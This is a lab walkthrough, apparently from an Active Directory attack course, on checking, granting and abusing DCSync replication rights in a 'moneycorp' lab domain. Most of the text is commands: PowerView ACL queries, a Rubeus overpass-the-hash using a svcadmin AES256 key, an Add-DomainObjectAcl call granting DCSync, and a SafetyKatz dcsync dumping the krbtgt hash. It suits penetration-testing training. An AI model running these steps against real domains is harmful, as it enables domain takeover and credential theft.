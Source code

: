 # 🪞 Check for DCSync rights, add them and pull hashes

First let's launch Powervew and look if we have replication rights

{% hint style="info" %}
Replication rights in Active Directory (AD) refer to the permissions that control which users or groups can replicate directory information between domain controllers. These rights are crucial for ensuring the integrity and security of the replication process within an AD environment.
{% endhint %}

We can check if we have replication rights using the following commands

```
. C:\AD\Tools\PowerView.ps1 
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't have replication rights, let's add them. Start a process as Domain Administrator by running the below comman from an elevated command prompt:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this command will spawn a shell, now in the new process we can run the bypass command, run PowerView and then ->

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student613 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now on a normal shell we can go and look and check for out rights ->

```
Get-DomainObjectAcl -SearchBase"DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx613"} 
```

Now we'll need to encode `lsadump::dcsync`

and launch this command:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

